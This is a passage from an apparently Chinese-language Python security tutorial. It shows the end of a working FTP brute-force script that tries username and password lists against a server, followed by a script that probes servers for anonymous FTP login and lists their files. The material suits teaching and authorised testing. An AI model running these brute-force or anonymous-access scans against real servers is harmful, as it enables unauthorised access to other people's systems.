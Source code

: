        for user in users:
            for password in passwords:
                try:
                    print("[*] Trying to connect")
                    connect=ftplib.FTP(ip)
                    response=connect.login(user.strip(),password.strip())
                    print(response)
                    if "230 Login" in response:
                        print("[*]Sucessful attack")
                        print("User: "+ user + "Password: "+password)
                        sys.exit()
                    else:
                        pass
                except ftplib.error_perm:
                    print("Cant Brute Force with user "+user+ "and password "+password)
                connect.close

    except(KeyboardInterrupt):
         print("Interrupted!")
         sys.exit()

ip=input("Enter FTP SERVER:")
user_file="users.txt"
passwords_file="passwords.txt"
brute_force(ip,user_file,passwords_file)
```

# 用 Python 构建匿名 FTP 扫描器

我们可以使用`ftplib`模块来构建脚本，以确定服务器是否提供匿名登录。

函数`anonymousLogin()`接受主机名并返回一个描述匿名登录可用性的布尔值。该函数尝试使用匿名凭据创建 FTP 连接。如果成功，则返回值“`True`”

您可以在文件名中找到以下代码：`checkFTPanonymousLogin.py`：

```py
import ftplib

def anonymousLogin(hostname):
    try:
        ftp = ftplib.FTP(hostname)
        ftp.login('anonymous', '')
        print(ftp.getwelcome())
        ftp.set_pasv(1)
        print(ftp.dir())        
        print('\n[*] ' + str(hostname) +' FTP Anonymous Logon Succeeded.')
        return ftp
    except Exception as e:
        print(str(e))
        print('\n[-] ' + str(hostname) +' FTP Anonymous Logon Failed.')
        return False
```
